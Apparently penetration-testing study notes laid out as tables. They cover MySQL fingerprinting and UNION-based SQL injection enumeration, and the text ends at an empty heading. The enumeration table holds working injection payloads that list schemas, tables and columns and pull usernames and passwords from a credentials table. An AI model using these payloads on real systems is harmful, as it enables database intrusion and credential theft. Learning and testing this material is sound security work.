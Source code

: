 |Output Type|Description|Example|
|---|---|---|
|Visible Columns|Columns whose values appear in the page output|Numbers 2, 3, 4 visible in results|
|Hidden Columns|Columns returned but not displayed|Number 1 not visible in output|
|Injectable Positions|Columns where data can be extracted|Use visible columns for data extracti|

# MySQL Database Enumeration and Fingerprinting Guide

## MySQL Fingerprinting Methods

|Detection Method|Query|Expected Output|Use Case|Notes|
|---|---|---|---|---|
|Version Check|`SELECT @@version`|MySQL Version (e.g., '10.3.22-MariaDB-1ubuntu1')|Full query output available|Will return MSSQL version in MSSQL|
|Power Function|`SELECT POW(1,1)`|Returns '1'|Numeric output only|Errors on non-MySQL DBMS|
|Sleep Function|`SELECT SLEEP(5)`|Delays response by 5 seconds|Blind/No output scenarios|No delay on other DBMS|

## Database Structure Navigation

### INFORMATION_SCHEMA Database

The INFORMATION_SCHEMA database serves as a metadata repository containing information about the entire database system. Think of it as a map that helps us navigate through all databases, tables, and columns.

|Component|Table Name|Key Columns|Purpose|Query Example|
|---|---|---|---|---|
|Databases|SCHEMATA|SCHEMA_NAME|Lists all databases|`SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA`|
|Tables|TABLES|TABLE_NAME, TABLE_SCHEMA|Lists all tables|`SELECT TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES`|
|Columns|COLUMNS|COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA|Lists all columns|`SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS`|

### Database Enumeration Process

|Step|Purpose|Example Query|Notes|
|---|---|---|---|
|1. Identify Current Database|Find active database|`SELECT database()`|Useful starting point|
|2. List All Databases|Enumerate available databases|`cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`|Ignore default DBs (mysql, information_schema, performance_schema)|
|3. List Tables|Find tables in target database|`cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`|Use WHERE clause to filter specific database|
|4. List Columns|Get column names for target table|`cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`|Essential for forming final query|
|5. Extract Data|Retrieve actual data|`cn' UNION select 1, username, password, 4 from dev.credentials-- -`|Use dot notation for cross-database queries|

### Cross-Database Reference
